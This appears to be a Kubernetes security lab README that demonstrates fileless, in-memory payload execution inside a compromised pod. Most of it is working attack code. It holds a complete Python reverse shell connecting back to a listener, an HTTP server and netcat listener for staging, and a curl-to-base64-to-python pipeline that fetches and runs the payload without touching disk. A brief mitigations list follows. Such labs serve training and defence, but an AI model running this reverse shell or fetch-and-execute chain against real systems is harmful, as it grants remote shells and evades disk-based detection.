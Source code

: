 # Lab 4 – In-Memory Code Execution with Python

## Objective
Demonstrate how an attacker can execute a malicious payload entirely in memory inside a compromised pod, bypassing disk-based detection and leaving no files behind.

---

## 1. Create the Lab Cluster

```bash
k3d cluster create lab4 \
  --agents 1 \
  --servers 1 \
  --k3s-arg "--disable=traefik@server:0"
```

Verify the cluster is running:
```bash
kubectl get nodes
```

---

## 2. Lab Setup

Create a dedicated namespace:
```bash
kubectl create ns lab4
```

Deploy an attacker pod with Python installed:
```bash
kubectl -n lab4 run attacker-pod \
  --image=python:3.11-alpine \
  --restart=Never \
  --command -- sleep infinity
```

Check pod status:
```bash
kubectl -n lab4 get pods -o wide
```

---

## 3. Prepare the Attacker Payload (on Host)

Create a Python reverse shell payload:
```bash
cat <<'EOF' > payload.py
import socket,subprocess,os
HOST="host.k3d.internal"
PORT=4444
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((HOST,PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/sh")
EOF
```

Base64-encode it so it can be streamed safely:
```bash
base64 -w0 payload.py > payload.b64
```

Host the file over HTTP:
```bash
python3 -m http.server 8000
```

---

## 4. Start a Listener

On your attacker host:
```bash
nc -lvnp 4444
```

---

## 5. Exploit Demonstration

Exec into the attacker pod:
```bash
kubectl -n lab4 exec -it attacker-pod -- /bin/sh
```

Inside the pod, download, decode, and execute **in memory**:
```bash
apk add --no-cache curl  # If curl is missing

curl http://host.k3d.internal:8000/payload.b64 \
  | base64 -d \
  | python3
```

If successful, your netcat listener should receive a shell.

Commands from reverse shell
```bash
id
uname -a
hostname

pgrep -f '^python3$' | xargs -r -I{} sh -c 'echo PID:{}; tr "\0" " " </proc/{}/cmdline; echo'
#expected output is python with NO payload.py argument

```


---

## 6. Key Takeaways

- **Stealth:** No files written to disk, bypassing many scanners.
- **Requirements:** Python interpreter inside the container.
- **Detection Gaps:** Requires runtime monitoring to detect.
- **Real-World Applicability:** Works with other interpreters like Bash, Perl, Ruby.

---

## 7. Mitigations

- Use **distroless** or **scratch** base images (no interpreter binaries like Python).
- Apply **seccomp** or **AppArmor** profiles to restrict process execution.
- Monitor runtime behavior with **Falco** or **Tracee**.

---

## 8. Cleanup

```bash
k3d cluster delete lab4
```
